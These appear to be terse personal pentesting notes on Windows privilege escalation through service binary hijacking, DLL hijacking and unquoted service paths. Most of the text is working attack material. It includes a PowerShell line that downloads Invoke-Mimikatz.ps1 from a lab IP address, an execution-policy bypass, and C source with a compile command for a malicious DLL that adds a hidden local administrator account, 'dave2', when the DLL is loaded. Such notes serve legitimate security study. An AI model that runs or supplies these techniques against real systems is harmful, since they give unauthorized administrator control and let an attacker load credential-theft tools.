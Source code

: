 ### Service Binary Hijacking
Get-Service
Get-CimInstance

Get-CimInstance -ClassName win32_service | Select Name,State,PathName | Where-Object {$_.State -like 'Running'}

icacls
Get-ACL
icacls "C:\xampp\apache\bin\httpd.exe"



replace the binary with desired exe
restart service if rights
Get-CimInstance -ClassName win32_service | Select Name, StartMode | Where-Object {$_.Name -like 'BackupMonitor'}
shutdown /r /t 0

powerup,ps1

iwr -uri http://192.168.45.186:8000/Invoke-Mimikatz.ps1 -Outfile PowerUp.ps1
powershell -ep bypass
. .\PowerUp.ps1
Get-ModifiableServiceFile

### service DLL hijacking

search order for dll
```
1. The directory from which the application loaded.
2. The system directory.
3. The 16-bit system directory.
4. The Windows directory. 
5. The current directory.
6. The directories that are listed in the PATH environment variable.
```
Get-Process yourphone | select -ExpandProperty modules | group -Property FileName | select name

Dllmain four cases

DLL_PROCESS_ATTACH
DLL_THREAD_ATTACH
DLL_THREAD_DETACH
DLL_PROCESS-DETACH

DLL code
```
#include <stdlib.h>
#include <windows.h>

BOOL APIENTRY DllMain(
HANDLE hModule,// Handle to DLL module
DWORD ul_reason_for_call,// Reason for calling function
LPVOID lpReserved ) // Reserved
{
    switch ( ul_reason_for_call )
    {
        case DLL_PROCESS_ATTACH: // A process is loading the DLL.
        int i;
  	    i = system ("net user dave2 password123! /add");
  	    i = system ("net localgroup administrators dave2 /add");
        break;
        case DLL_THREAD_ATTACH: // A process is creating a new thread.
        break;
        case DLL_THREAD_DETACH: // A thread exits normally.
        break;
        case DLL_PROCESS_DETACH: // A process unloads the DLL.
        break;
    }
    return TRUE;
}
```

x86_64-w64-mingw32-gcc myDLL.cpp --shared -o myDLL.dll

### Unquoted Service Paths

Get-CimInstance -ClassName win32_service | Select Name,State,PathName

cmd - wmic service get name,pathname |  findstr /i /v "C:\Windows\\" | findstr /i /v """
check for rights at all path using icacls
copy the exe at path that is writeable
restart service

powerup

Get-UnquotedService